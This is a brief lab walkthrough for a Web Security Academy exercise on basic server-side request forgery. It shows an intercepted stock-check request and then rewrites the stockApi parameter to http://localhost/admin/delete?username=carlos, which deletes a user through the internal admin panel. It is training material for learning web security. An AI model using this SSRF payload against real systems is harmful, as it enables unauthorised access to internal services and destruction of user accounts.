 *** *** *** *** *** *** *** *** *** *** *** *
LAB-01 : Basic SSRF against the local server
*** *** *** *** *** *** *** *** *** *** *** *

- Access the lab and pick - View details
- At the bottom you will see - Check Stock

Initial request:

POST /product/stock HTTP/2\
Host: 0a0000f30455b34b81187bea007400da.web-security-academy.net\
Cookie: session=zOHO3dwNS0AmenAeR0uBKCyU9jkXhQO3\
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:120.0) Gecko/20100101 Firefox/120.0\
Accept: */*\
Accept-Language: en-US,en;q=0.5\
Accept-Encoding: gzip, deflate, br\
Referer: https://0a0000f30455b34b81187bea007400da.web-security-academy.net/product?productId=2 \
Content-Type: application/x-www-form-urlencoded\
Content-Length: 107\
Origin: https://0a0000f30455b34b81187bea007400da.web-security-academy.net \
Sec-Fetch-Dest: empty\
Sec-Fetch-Mode: cors\
Sec-Fetch-Site: same-origin\
Te: trailers\

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1\

Inspector decrypts stockApi line to readable text:

http://stock.weliketoshop.net:8080/product/stock/check?productId=2&storeId=1

So you need to change:

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1
==
http://stock.weliketoshop.net:8080/product/stock/check?productId=2&storeId=1

to 

stockApi=http%3a%2f%2flocalhost%2fadmin%2fdelete%3fusername%3dcarlos
==
stockApi=http://localhost/admin/delete?username=carlos

This will not just access admin dashboard but also deletes user carlos and solves the LAB.
